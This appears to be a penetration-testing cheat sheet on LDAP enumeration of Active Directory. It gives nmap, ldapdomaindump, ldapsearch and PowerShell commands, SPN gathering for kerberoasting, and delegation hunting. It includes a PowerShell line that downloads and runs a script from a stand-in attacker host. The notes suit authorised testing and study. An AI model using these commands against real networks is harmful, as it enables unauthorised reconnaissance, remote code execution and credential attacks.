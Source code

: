 # LDAP/389/636 (TCP)

## Questions to ask yourself
  *  Is the LDAP server also the domain controller?
  *  How many machines/users exist in the domain?
      *  Which are high-value targets?

## Things to remember
  *  LDAP [distinguished names](https://ldap.com/ldap-dns-and-rdns/) describe a position in the directory heirarchy
  *  List of some [famous LDAP filters](https://www.ldapexplorer.com/en/manual/109050000-famous-filters.htm) for easy searching

## Useful tools
  *  [`nmap`](https://nmap.org/) for various NSE enum scripts
  *  [`ldapdomaindump`](https://github.com/dirkjanm/ldapdomaindump) for dumping domain objects
  *  [`ldapsearch`](https://linux.die.net/man/1/ldapsearch) for precise LDAP searching
  *  Custom [`Invoke-LDAPSearch.ps1`](https://github.com/SpacemanHenry/hacknotes/blob/main/Post%20Exploitation/Privilege%20Escalation/Windows/Powershell%20Scripts/Invoke-LDAPSearch.ps1) for searching LDAP from `powershell`
  *  [`impacket-GetUserSPNs`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) and [`Get-SPN.ps1`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) for gathering service principal names
  *  [`impacket-findDelegation`](https://github.com/fortra/impacket/blob/master/examples/findDelegation.py) for automatically gathering delegation permissions

## Additonal NSE enumeration
  *  `nmap` [LDAP NSE scripts](https://nmap.org/search/?q=ldap) without credentials will not yield much
      *  See [`ldap-search.nse`](https://nmap.org/nsedoc/scripts/ldap-search.html) docs for more examples

```
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap*"
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute"
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password'
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password,ldap.maxobjects=-1'
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password,ldap.qfilter=users,ldap.attrib=sAMAccountName,ldap.maxobjects=-1'
```

## LDAP domain dump
  *  `ldapdomaindump` for reading all objects from an LDAP server
      *  Create a new directory for this, outputs a lot of files
      *  Likely requires credentials

```
ldapdomaindump 10.0.0.1
ldapdomaindump ldapserver.example.com
ldapdomaindump -u "bob" -p "password" 10.0.0.1
ldapdomaindump -u "bob" -p "password" ldapserver.example.com
```

## LDAP search
  *  [`hacktricks`](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap) for more/better examples
  *  `ldapsearch` for finding specific objects from an LDAP server
  *  Custom powershell script `Invoke-LDAPSearch.ps1` for sending LDAP queries
      *  Used to perform LDAP searches from a domain-joined machine
      *  No additional pivot tools needed

```
ldapsearch -x -H ldap://10.0.0.1 -D '' -w '' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=com' samaccounttype=805306368
ldapsearch -x -H ldap://ldapserver.example.com -D '' -w '' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://ldapserver.example.com -D 'example\bob' -w 'password' -b 'DC=example,DC=com'
```

```
PS > Invoke-LDAPSearch -connect "LDAP://10.0.0.1/DC=example,DC=com"
PS > Invoke-LDAPSearch -filter "samaccounttype=805306368"
PS > Invoke-LDAPSearch -username "bob" -password "pass123"
```

## Gathering SPNs
  *  Hunt for target services by querying for [service principal names](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names)
  *  Useful preparation for [kerberoasting](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)
  *  `impacket-GetUserSPNs` for gathering service principal names from linux
  *  `Get-SPN.ps1` or `Invoke-LDAPSearch.ps1` can be used to enumerate SPNs without requesting tickets

```
impacket-GetUserSPNs example.com/bob:password -dc-ip 10.0.0.1
```

```
PS > IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/Get-SPN.ps1');
PS > Get-SPN -type service -search "*"
```

```
PS > Invoke-LDAPQuery "serviceprincipalname=*"
```

## Delegation permissions
  *  Hunt for user/computer objects configured with delegation permissions
  *  Enumerating delegation relies on specific object attributes being readable
      *  [`useraccountcontrol`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties) attribute to [check what delegations are enabled](https://www.techjutsu.ca/uac-decoder) 
      *  [`msDS-AllowedToDelegateTo`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-allowedtodelegateto) to show SPNs allowed for constrained delegation
  *  `ldapsearch` and `impacket-findDelegation` for enumerating delegation permissions

```
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' samaccounttype=805306368 samaccountname useraccountcontrol
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' samaccounttype=805306368 samaccountname msDS-AllowedToDelegateTo
```

```
impacket-findDelegation example.com/bob:password -dc-ip 10.0.0.1
```
